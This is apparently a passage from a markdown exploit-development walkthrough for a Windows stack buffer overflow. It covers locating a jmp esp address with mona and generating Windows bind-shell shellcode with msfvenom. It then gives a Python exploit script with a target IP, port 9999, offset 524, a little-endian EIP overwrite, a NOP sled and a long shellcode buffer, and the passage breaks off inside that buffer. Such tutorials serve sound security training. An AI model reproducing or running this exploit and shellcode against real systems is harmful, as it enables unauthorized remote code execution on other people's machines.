 
##### 3- get address of jmp esp instruction

it is easy just type `!mona jmp -r esp ` at the bottom of the debugger 

![image](https://user-images.githubusercontent.com/67979878/129598650-d4186577-2509-4348-ad5d-255722443849.png)

![image](https://user-images.githubusercontent.com/67979878/129598714-c0cfe000-fb2b-47fc-8a28-37242431ab01.png)

address : 31 17 12 F3

we need to convert it to little endian notation as the stack is filled form right to left it will be  : `\xf3\x12\x17\x31`


##### 4- setup your shell code

i love to use bindshell that's why this shell code will work with any one run my script :) 

bind shell makes you connect to it 

final payload should be like : "A"*offset + 'jmp esp instruction' + NOP*(some number maybe 20,30,.. ) + shellcode

` $ msfvenom -p windows/shell_bind_tcp LPORT=4444 -f py -b '\x00'  `                                                          

take the buf out and add it at the code :

````python
#!/bin/env python


import socket,sys

host="192.168.1.8" #change this
port=9999
offset = 524

# 311712F3
EIP = "\xf3\x12\x17\x31"


buf =  b"\x90"*30
buf += b"\xbe\x89\xca\xdc\x98\xdd\xc2\xd9\x74\x24\xf4\x5a\x31"
buf += b"\xc9\xb1\x53\x83\xea\xfc\x31\x72\x0e\x03\xfb\xc4\x3e"
buf += b"\x6d\x07\x30\x3c\x8e\xf7\xc1\x21\x06\x12\xf0\x61\x7c"
buf += b"\x57\xa3\x51\xf6\x35\x48\x19\x5a\xad\xdb\x6f\x73\xc2"
buf += b"\x6c\xc5\xa5\xed\x6d\x76\x95\x6c\xee\x85\xca\x4e\xcf"
buf += b"\x45\x1f\x8f\x08\xbb\xd2\xdd\xc1\xb7\x41\xf1\x66\x8d"
buf += b"\x59\x7a\x34\x03\xda\x9f\x8d\x22\xcb\x0e\x85\x7c\xcb"
buf += b"\xb1\x4a\xf5\x42\xa9\x8f\x30\x1c\x42\x7b\xce\x9f\x82"
buf += b"\xb5\x2f\x33\xeb\x79\xc2\x4d\x2c\xbd\x3d\x38\x44\xbd"
buf += b"\xc0\x3b\x93\xbf\x1e\xc9\x07\x67\xd4\x69\xe3\x99\x39"
buf += b"\xef\x60\x95\xf6\x7b\x2e\xba\x09\xaf\x45\xc6\x82\x4e"
buf += b"\x89\x4e\xd0\x74\x0d\x0a\x82\x15\x14\xf6\x65\x29\x46"
buf += b"\x59\xd9\x8f\x0d\x74\x0e\xa2\x4c\x11\xe3\x8f\x6e\xe1"
buf += b"\x6b\x87\x1d\xd3\x34\x33\x89\x5f\xbc\x9d\x4e\x9f\x97"
buf += b"\x5a\xc0\x5e\x18\x9b\xc9\xa4\x4c\xcb\x61\x0c\xed\x80"
buf += b"\x71\xb1\x38\x3c\x79\x14\x93\x23\x84\xe6\x43\xe4\x26"
buf += b"\x8f\x89\xeb\x19\xaf\xb1\x21\x32\x58\x4c\xca\x2d\xc5"
buf += b"\xd9\x2c\x27\xe5\x8f\xe7\xdf\xc7\xeb\x3f\x78\x37\xde"
buf += b"\x17\xee\x70\x08\xaf\x11\x81\x1e\x87\x85\x0a\x4d\x13"
buf += b"\xb4\x0c\x58\x33\xa1\x9b\x16\xd2\x80\x3a\x26\xff\x72"
buf += b"\xde\xb5\x64\x82\xa9\xa5\x32\xd5\xfe\x18\x4b\xb3\x12"
buf += b"\x02\xe5\xa1\xee\xd2\xce\x61\x35\x27\xd0\x68\xb8\x13"
buf += b"\xf6\x7a\x04\x9b\xb2\x2e\xd8\xca\x6c\x98\x9e\xa4\xde"
buf += b"\x72\x49\x1a\x89\x12\x0c\x50\x0a\x64\x11\xbd\xfc\x88"
buf += b"\xa0\x68\xb9\xb7\x0d\xfd\x4d\xc0\x73\x9d\xb2\x1b\x30"
````
